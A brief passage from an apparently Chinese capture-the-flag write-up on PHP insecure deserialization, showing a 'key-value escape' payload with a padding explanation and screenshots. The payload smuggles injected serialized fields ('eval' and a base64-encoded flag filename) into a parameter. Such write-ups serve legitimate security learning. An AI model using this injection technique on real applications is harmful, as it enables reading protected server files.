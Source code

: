 ![image-20240412105552525](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105552525.png)

**键值逃逸**

payload

先构造function为`a";s:8:"function";s:4:"eval";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

至于为什么有个`a`，看下图，选中部分就是想要让flag被替代的部分，正好是23个缺1个，用a来占位置的

![image-20240412105600445](16.%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/image-20240412105600445.png)
